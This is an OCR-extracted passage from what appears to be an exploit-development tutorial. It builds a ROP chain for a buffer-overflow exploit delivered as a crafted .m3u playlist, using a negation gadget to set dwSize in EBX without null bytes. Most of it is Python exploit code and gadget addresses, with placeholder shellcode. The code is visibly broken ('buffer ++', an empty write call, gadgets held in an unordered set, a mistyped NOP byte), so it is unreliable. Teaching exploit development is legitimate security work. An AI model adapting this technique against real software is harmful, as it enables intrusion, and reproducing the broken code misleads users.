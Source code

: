 ```python
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

The breakpoint is set, and the exploit playlist is opened.
It may be necessary to reset it each time the debugged application is restarted.

`dwSize`, which will reside in `EBX`, is the next parameter we need to configure prior to calling `PUSHAD`.

Unfortunately, due to null bytes, we cannot simply push `0x201`. Nonetheless, we can employ negation.
We can push the fixed value of `0xfffffdff` and then locate a device that reverses the operation.
You can also consider other operations, like `POP REG [value] # ADD REG` or similar.

Consider the following gadgets in the chain:

- `0x10015f82` - POP EAX # RETN
- `0xfffffdff` - After negation, will become 0x201
- `0x10014db4` - NEG EAX # RETN
- `0x10032f72` - XCHG EAX, EBX

Place them in the exploit and begin as usual with the breakpoint in the first `RET`. Again, we will walk inside each instruction and observe their behavior.

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,
        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx
        0x42424242, # placeholder
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"

```
